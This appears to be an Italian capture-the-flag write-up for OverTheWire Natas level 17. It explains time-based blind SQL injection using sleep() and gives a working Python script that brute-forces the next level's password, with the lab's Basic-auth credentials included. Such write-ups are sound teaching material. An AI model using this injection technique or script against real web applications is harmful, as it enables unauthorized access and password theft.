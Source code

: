 ```php
    } else {
        //echo "Error in query.<br>";
    }
    mysql_close($link);
} else {
    *stampa il form*
}
?> 
```
```sql
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
); 
```

Questo codice l'abbiamo già visto nell'esercizio 15. Con una differenza, però:

```php
if(mysql_num_rows($res) > 0) {
    //echo "This user exists.<br>";
} else {
    //echo "This user doesn't exist.<br>";
}
```

Tutti gli output sono stati commentati, in questo modo non avremo alcun ritorno, e non potremo attuare la metodologia usata nell'esercizio 15. Dobbiamo trovare un modo con cui SQL possa darci un ritorno. L'unico comando SQL che mi viene in mente che possa esserci utile è `sleep()`. Questo comando ferma per n secondi l'esecuzione dello script, questo potrà poi ripartire. Quindi:

```sql
SELECT * from users where `username` = "natas18" and sleep(if(`password` like binary "a%", 4, 0)
```

Tramite il riconoscimento degli errori dovremmo essere in grado di determinare se una stringa è contenuta dalla password.
Creiamo un nuovo file python, `enumerator.py`:

```py
import urllib.request as ulib
import time

# base64 natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
headers={"Authorization" : "Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=="}
url = "http://natas17.natas.labs.overthewire.org/index.php"
alfanum = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890"
password = ""

# natas18" and sleep(if(`password` like binary 'a%', 5, 0))#
for k in range(32): # Lunghezza della password
    for i in alfanum:
        print(f"Password: {password}; Try with: {i}", end="\r")
        try:
            request = url+'?username=natas18"+and+sleep(if(password+like+binary+"'+password+i+'%",4,0))%23'
            payUrl = ulib.Request(url=request, headers=headers)
            ulib.urlopen(payUrl, timeout=1.5).read()
        except IOError: 
            password += i
            time.sleep(1)
        
print("\n"+password)
```
